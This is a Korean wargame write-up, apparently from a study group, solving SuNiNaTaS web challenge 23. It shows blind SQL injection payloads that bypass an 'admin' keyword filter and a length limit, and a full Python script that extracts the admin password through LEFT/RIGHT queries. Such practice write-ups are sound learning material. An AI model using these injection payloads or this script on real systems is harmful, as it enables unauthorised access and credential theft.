

##### 해당 게시글은 빡공팟 4기(with TeamH4C)와 관련되어 있습니다
-----

# > https://suninatas.com

## challenge 23


바로 다음 단계에서는 admin 아이디를 구해야하는데 admin이 필터링되어 있었다. 하지만 쿼리문에서 문자를 이어붙히는 방법을 알고 있기에 한 번 시도해보았더니 바로 admin 계정 로그인이 가능했다.


익스코드로 시도하려 했으나 실패했었는데 삽질 과정 중 얻게 된 정보이다

|                  admi'+'n' and len(pw)>3--                   |
| :----------------------------------------------------------: |
| http://suninatas.com/challenge/web23/web23.asp?id=admi%27%2B%27n%27+and+len%28pw%29%3E3--&pw=1234	< 성공<br/>http://suninatas.com/challenge/web23/web23.asp?id=admi%27+%27n%27%20and%20len(pw)%3E3--&pw=1234	< 실패 |


직접 아이디란에 쿼리를 넣으면 성공 케이스처럼 URL이 전송되었는데 python의 requests 모듈을 이용하여 전송하니 실패 케이스처럼 URL이 전송되었다. 원인을 보니 `+` 기호에 대한 인코딩 차이인 것 같아서 익스코드에는 `+` 기호 대신 `%2B`를 넣어 직접 인코딩 해주었다.이를 토대로 바로 비밀번호 길이는 12자리임을 찾아냈는데 문제는 다음 단계였다.

이 문제에서는 `substring` 함수를 제한하고 있기에 다른 대안을 찾야야 한다.


<br>


찾은 대안은 이전 문제에서 힌트를 얻었는데 필터링에 LEFT와 RIGHT 함수가 제외된 부분이다. 그래서 LEFT 함수를 이용하여 문자열을 찾기로 했는데 과정 중에서 또 다른 제한 사항을 마주했다.


분명 익스 코드에서 쿼리 문에 이상이 없는데 "No hack" 문구가 발생하는 것이다. 추적해보니 31자리 이상의 입력이 들어갈 경우에 필터링에 걸린 것과 같은 결과물이 나왔다. 때문에 `admi\'%2B\'n\' and left(pw,1)=\''+chr(i)+'\'--' ` 이렇게 보내는 쿼리 길이를 어떻게 줄여야 할까 생각을 해보았다.

<br>

쿼리를 받는 입장에서 생각해보기 위해 내가 웹을 만들었던 기억을 되살려보면 로그인 시에 `SELECT * FROM table WHERE id = '' and pw =''` 이런식으로 WHERE 절 뒤에 컬럼과 함께 넣었었다. 그리고 and를 이용해 검사 결과에 "그리고" 라는 의미를 더했었는데 생각해보면 "또는"의 `or`도 사용할 수 있었다. 그리하여 admin 계정 비밀번호의 첫번째 자리를 알 수 있다면 `WHERE id = '' or left(pw,3) = '?XX'` 와 같이 보낼 수도 있겠다. 어디까지나 첫번째 문자를 알아야만 가능한 것이다.

그리하여 위 시행착오와 가설을 통해 아래 익스 코드를 작성했다.

```python
import requests

def request(uid):
	url = f'http://suninatas.com/challenge/web23/web23.asp?id={uid}&pw=1234'
	response = requests.get(url)
	return response

def find_len_pw():
	for num in range(3,30):
		uid = f'admi\'%2B\'n\' and len(pw)>{num}--'
		response = request(uid)
		if "False" in response.text:
			print("Finally I can get pw len: ",num)
			break
	return num

def solve(len_pw):

	# got first letter of pw
	#uid = f'admi\'%2B\'n\' and left(pw,1)=\''+chr(i)+'\'--' 
	#==> V
	res = "V"
	print(f"Wait! I find 1's letter : ",res)

	# get 9 letter on the left side
	for idx in range(2,len_pw+1):
		for i in range(33,127):
			uid = f'\'or left(pw,{idx})=\''+res+chr(i)+'\'--'
			response = request(uid)
			if "OK" in response.text:
				print(f"Wait! I find {idx}'s letter : ",chr(i))
				res += chr(i)
				break

	# get 2 letter on the right side
	res2 = ''
	for idx in range(1,3):
		for i in range(33,127):
			uid = f'\'or right(pw,{idx})=\''+chr(i)+res2+'\'--'
			response = request(uid)
			if "OK" in response.text:
				print(f"Wait! I find {idx}'s letter : ",chr(i))
				res2 = chr(i) + res2
				break

	print(res+res2)

if __name__ == "__main__":
	len_pw = find_len_pw()
	solve(len_pw)	
```

삽질을 토대로 함수를 만들어낸 과정이다.

1. admin 문자열 우회를 위해 `+` 기호를 이용하여 문자열을 완성
2. `+` 기호가 인코딩되지 않아 직접 인코딩하여 전송
3. `substr` 함수 사용이 불가능하여 `left` 함수 이용
4. 쿼리 길이 제한이 있어서 첫번째 자리 확보 후에 `or`을 이용하여 쿼리 전송
5. 그럼에도 길이 제한이 있어서 `right` 함수 이용
6. `left`와 `right`를 통해 얻은 문자열 합침

캬 시간이 증발했다.


익스 결과 캡처본이다.


<br>

## 정리

이렇게 5일동안 WEB 파트를 다 풀어보았는데 생각보다 얻은 것이 상당히 많은 것 같다. 앞으로 풀어나갈 문제들의 기초를 튼튼히 해두고 잊지 않기 위해서 얻은 개념과 정보들을 정리해두어야 겠다. 역시 개발을 하면서 웹과 친숙해진게 정말 강점으로 작용했다.

